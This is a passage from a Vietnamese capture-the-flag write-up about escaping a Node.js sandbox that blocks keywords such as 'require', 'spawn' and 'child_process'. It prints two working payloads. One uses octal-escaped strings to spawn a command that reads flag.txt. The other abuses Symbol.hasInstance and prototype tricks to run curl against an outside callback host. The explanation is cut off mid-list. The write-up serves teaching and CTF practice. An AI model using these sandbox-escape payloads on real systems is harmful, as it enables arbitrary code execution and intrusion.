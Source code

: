 Payload cuối cùng
```js
global.process.mainModule["requir\145"]('chil\144_proces\163')["spaw\156Sy\156c"]('cat',['flag.txt']).output.toString();
```

Và mình có được flag

![alt text](assets/wannagame/3.png)

Sau khi dump ra được source thì đây là các chuỗi bị chặn

```js
blacklist = ['system', 'child_process', 'exec', 'spawn', 'eval', 'require'];
```

**Payload 2:**

Note: Cách này mình đã đọc được từ writeup của các giải amstrong2024 và TSG2023 và tham khảo của anh shin24 link mình sẽ đính kèm bên dưới

```js
toString.constructor.prototype.toString=toString.constructor.prototype.call;
var a=["process.mainModule.require('child_process').execSync('curl http://yh9wz5br.requestrepo.com')"];
a[1]="x";
b={};
b[Symbol.hasInstance]=a.sort;
b["__proto__"]=a;
toString.constructor instanceof b;
```

Giải thích sơ qua về payload này

- Đầu tiên chúng ta sẽ gọi đến function `toString` và gán giá trị của function `call` cho nó

- Tiếp theo ta tạo một mảng a với giá trị đầu tiên là payload mà ta muốn execute (payload này sẽ được thực thi trong anonymous function)

- Tiếp theo ta gán giá trị ``'x'`` cho `a[1]` (sẽ giải thích ở bên dưới vì sao có phần này)

- Sau đó tạo một object b với key là `Symbol.hasInstance` và value là `a.sort`

- Sau đó set `__proto__` của b là a
